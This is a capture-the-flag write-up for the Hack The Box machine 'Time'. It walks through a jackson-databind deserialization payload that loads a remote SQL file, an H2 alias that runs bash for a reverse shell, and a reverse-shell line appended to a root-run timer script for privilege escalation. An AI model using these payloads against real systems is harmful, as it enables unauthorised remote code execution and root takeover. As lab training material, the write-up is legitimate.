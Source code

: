 # Time
This box is a HTB Linux made by egotisticalSW & felamos and its IP is
10.10.10.214.

We start by an nmap scan:
```
$ nmap -sC -sV -oA nmap/complete -p- 10.10.10.214
```

Nmap shows port 22 open with OpenSSH banner for Ubuntu  ;
Port 80 open with Apache 2.4.41 ; Online JSON Parser title
Website serves an application form that can Beautify and validate JSON.
The "Validate (beta!)" option hints to us that this feature is still
in development and can probably be abused.

Inputing in this form malformed json prompts us this error:
```
Validation failed:
  Unhandled Java exception:
    com.fasterxml.jackson.databind.exc.MismatchedInputException:
      Unexpected token (START_OBJECT), expected START_ARRAY: need JSON Array to
      contain As.WRAPPER_ARRAY type information for class java.lang.Object
```

This stacktrace tells us that the application is written in java and uses
`jackson-databind` to validate JSON data.
Many CVEs are available to us to be exploited. After some time practicing
Google Fu, we end up on this article:
https://blog.doyensec.com/2019/07/22/jackson-gadgets.html

Providing this payload, we are able to confirm a Server Side Request Forgery:
```
[
"ch.qos.logback.core.db.DriverManagerConnectionSource",
{
  "url":"jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM 'http://10.10.14.44:8000/inject.sql'"
  }
]
```
Our `python3 -m http.server` logs shows the server requesting our `inject.sql`
file. We modify said ̀ inject.sql` file to obtain a reverse shell on the box
```sql
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
       String[] command = {"bash", "-c", cmd};
       		java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
	  return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i >& /dev/tcp/10.10.14.44/4444 0>&1')
```

We start a netcat listener on our end, then run the payload again on the
application:
```
$ nc -lvnp 4444
connect to [10.10.14.44] from (UNKNOWN) [10.10.10.214] 40234
pericles@time:/var/www/html$ cat /home/pericles/user.txt | wc -c
33
```

We got shell execution on the box as user pericles. We're in.
Moving on to privilege escalation...

We upload to the box, run, then exfil the output of linpeas.sh;
Reading the report we find this:
```
...
[+] .sh files in path
You own the script /usr/bin/timer_backup.sh
```

Reading this script:
```
pericles@time$ cat /usr/bin/timer_backup.sh
zip -r website.bak.zip /var/www/html && mv website.bak.zip /root/backup.zip
```
According to linpeas output, this script is ran via System Timers every 10s as
root. We update the script to make it open yet another reverse shell to our box.

```
pericles@time$ echo "bash -i >& /dev/tcp/10.10.14.44/4445 0>&1" >> /usr/bin/timer_backup.sh
```

Since this reverse-shell will stay open only for as long as the original script
runs, we'll pre-emptively pipe our commands in our netcat:

```
$ nc -lnvp 4445
Listening on [any] 4445
cat /root/root.txt | wc -c
root@time$ cat/root/root.txt
33
```

We owned the root user.